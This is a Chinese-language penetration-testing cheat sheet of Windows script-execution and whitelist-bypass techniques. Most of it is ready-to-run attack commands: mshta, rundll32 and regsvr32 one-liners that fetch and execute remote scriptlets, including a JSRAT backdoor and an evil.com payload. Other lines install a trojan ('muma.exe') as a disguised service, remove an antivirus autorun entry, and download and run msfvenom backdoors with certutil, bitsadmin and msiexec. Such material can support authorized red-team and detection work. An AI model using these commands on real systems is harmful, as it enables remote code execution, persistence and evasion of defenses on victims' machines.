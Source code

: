 windows script example in penetration
----

#### 1.	powershell ####

	powershell -executionpolicy bypass ./powershell_script.ps1

#### 2. VBS ####

默认可以直接在机器上运行，命令行下可以通过`cscript.exe`执行

	cscript.exe vbs_script.vbs
	vbs_script.vbs


#### 3. csc(.cs c#) ####

首先通过`csc.exe`进行编译c#为`exe`，然后通过`InstallUtil.exe`进行程序执行

	C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:PEL.exe InstallUtilBypass.cs

	InstallUtil.exe /logfile= /LogToConsole=false /U PEL.exe

#### 4. Jscript(.js) ####

可以通过`wscript.exe`、`cscript.exe`以及直接运行，主要通过`ActiveXObject()`创建对应的对象`WScript.shell`、`Shell.Application`.

	cscript.exe/wscript.exe jscript.js
	jscript.js

JScript参考链接：http://www.yuanma.net/Manual/JavaScript/

https://evi1cg.me/archives/Run_JSRAT.html


通过访问wtf来获取payload, 最后是通过rundll32来执行的payload，不需要使用powershell

#### 5. Mshta ####

HTA（HTML Application)，可以嵌入`JScript`和`VBScript`，后缀名为`.hta`时可以直接运行，使用命令行`mshta`时，后缀可以使用`htm`,`xml`. 执行时带上绝对路径方可运行，否则无效。

	mshta vbscript:Close(Execute("GetObject(""script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Windows/Payloads/mshta.sct"").Exec()"))

	mshta.exe javascript:a=GetObject("script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Windows/Payloads/mshta.sct").Exec();close();
	
	mshta http://site.com/run.hta

#### 6. Rundll32 ####

server端执行https://github.com/Ridter/MyJSRat .利用时需要注意`RunHTMLApplication`后面是有一个空格。

	rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://127.0.0.1:8081/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}%  #JSRAT

	rundll32 AllTheThings.dll,EntryPoint 

	rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";o=GetObject("script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/Windows/Payloads/mshta.sct");o.Exec();window.close();	
	
	rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:http://urlto/jsbackdoor.wsc")

通过`system`的一些`dll`可以扩展很多绕过方法：

	rundll32 url.dll, OpenURL file://c:\windows\system32\calc.exe

	rundll32 url.dll, OpenURLA file://c:\windows\system32\calc.exe

	rundll32 url.dll, FileProtocolHandler calc.exe
	
	rundll32 C:\Windows\system32\shell32.dll,OpenAs_RunDLL C:\ProgramData\x64.1

修改注册表项

reg.inf

    [Version]
    
    Signature="$WINDOWS NT$"
    
    [DefaultInstall]
    
    AddReg=My_AddReg_Name
    
    DelReg=My_DelReg_Name
    
    [My_DelReg_Name]
    
    HKLM,SOFTWARE\Microsoft\Windows\CurrentVersion\Run,KAVRun

    rundll32.exe setupapi,InstallHinfSection DefaultInstall 128 c:/reg.inf

添加服务

srv.inf

    [Version]
    Signature="$WINDOWS NT$"
    [DefaultInstall.Services]
    AddService=inetsvr,,My_AddService_Name
    [My_AddService_Name]
    DisplayName=Windows Internet Service
    Description=提供对 Internet 信息服务管理的支持。
    ServiceType=0x10
    StartType=2
    ErrorControl=0
    ServiceBinary=%11%\muma.exe

	rundll32.exe setupapi,InstallHinfSection DefaultInstall 128 c:/srv.inf

https://github.com/redcanaryco/atomic-red-team/tree/master/Windows/Payloads/AllTheThings

#### 7. Regsvcs/Regasm

白名单绕过方法，通过加载DLL(.Net/C#).	(尝试在即编写dll，一直失败）, `regsvcs`注册`dll`需要签名。

	x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe AllTheThings.dll

	x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe AllTheThings.dll


	x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U AllTheThings.dll

	x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U AllTheThings.dll

https://github.com/redcanaryco/atomic-red-team/tree/master/Windows/Payloads/AllTheThings

https://gist.githubusercontent.com/jbarcia/a5ba8cf3badebf3c802f83832eda1059/raw/39aa6341cda40500a02cfc069b6d6ec45f1c5028/evil.cs(在编译这个脚本时，需要更改系统语言区域为英语/美国，非unicode，编译就不会报错了)

	rundll32 evil.dll,EntryPoint

http://www.codesec.net/view/443056.html

#### 8. Regsvr32

本地脚本加载运行

	regsvr32.exe /s /u /i:payload.sct scrobj.dll

远程脚本加载运行

	regsvr32.exe /s /u /i:http://evil.com/payload.sct scrobj.dll
	
	regsvr32 /s /n /u /i:http://urlto/JSRAT.sct scrobj.dll

	regsvr32.exe  payload.dll	# DLLregisterServer
	regsvr32.exe  /u payload.dll # DLLUnregisterServer

#### 9. odbcconf/Msbuild

	odbcconf /s /a {regsvr \\webdavserver\folder\payload_dll.txt}

	cmd /V /c "set MB="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe" & !MB! /noautoresponse /preprocess \\webdavserver\folder\payload.xml > payload.xml & !MB! payload.xml"

windows 文件下载

	certutil.exe -urlcache -split -f http://192.168.1.192/Client.exe 1.exe
	certutil.exe -urlcache -split -f http://192.168.1.192/Client.exe delete

#### 10.bitsadmin

	cmd.exe /c bitsadmin /transfer d90f http://vps/a %APPDATA%d90f.exe&%APPDATA%d90f.exe&del %APPDATA%d90f.exe

http://vps/a 为通过msfvenom生成payload


#### 11.msiexec/IEEXEC/msxsl

	msiexec /q /i http://site.com/payloads/calc.png
	
	C:\Windows\Microsoft.NET\Framework\v2.0.50727> caspol -s off

	C:\Windows\Microsoft.NET\Framework\v2.0.50727> IEExec http://192.168.3.1/test.exe
	
	msxsl https://website.com/scripts/demo.xml https://website.com/scripts/exec.xsl
	
其中calc.png为通过msfvenom生成的msi后门程序,test.exe为msfvenom生成的exe后门


#### MISC

install metasploit：

	curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall
	
参考文章： https://hk.saowen.com/a/adb601c29ea6b600e0ee88dc77f4df6f1d3cddfc59fca3bc05f86c6ab9c96d17
